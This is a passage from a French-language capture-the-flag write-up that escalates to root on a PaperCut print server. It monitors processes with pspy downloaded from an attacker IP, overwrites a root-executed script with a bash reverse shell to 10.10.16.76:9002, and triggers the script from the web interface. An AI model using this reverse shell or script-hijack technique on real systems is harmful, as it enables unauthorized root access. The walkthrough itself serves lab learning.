En regardant les processus actifs, le processus `/home/papercut/providers/print-deploy/linux-x64/pc-print-deploy` attire mon attention car j'y ai accès et que là il est exécuté en tant que root.
```js
ps -ef --forest
```



J'uploade `pspy` sur la machine. Mais pour le moment je ne trouve rien d'intéressant. Je le laisse tout de même tourner en arrière plan et je vais tester quelques fonctionnalités du site.
```js
papercut@bamboo:/tmp$ wget 10.10.16.76/pspy64
--2026-03-22 14:06:01--  http://10.10.16.76/pspy64
Connecting to 10.10.16.76:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                     100%[========================================================================================>]   2.96M  3.61MB/s    in 0.8s

2026-03-22 14:06:02 (3.61 MB/s) - ‘pspy64’ saved [3104768/3104768]

papercut@bamboo:/tmp$ chmod +x pspy64
papercut@bamboo:/tmp$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
```

Pour tester la fonctionnalité `pc-print-deploy`, je me rends dans `Enable Printing > Print Deploy`. Je choisis l'option `Import BYOD-friendly print queues` puis **Next**.



Puis sur `Start Importing Mobility Print printers`.



J'arrive alors sur cette page où il ne se passe rien.



Par contre, sur `pspy`, je vois que cette action déclenche l'exécution de la commande suivante.

```js
/bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
```



Le fichier appartient à `papercut` mais est exécuté en tant que root.
```js
papercut@bamboo:/tmp$ ls -l /home/papercut/server/bin/linux-x64/server-command
-rwxr-xr-x 1 papercut papercut 493 Sep 29  2022 /home/papercut/server/bin/linux-x64/server-command
```

Je fais un backup du fichier original.
```js
cp server-command server-command.bak
```

Puis je remplace son contenu par mon payload de reverse shell basique.
```js
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.76/9002 0>&1
```



Je me rends sur le site et je clique sur `Refresh servers`.



Ayant préalablement démarré mon listener, j'obtiens un shell root.




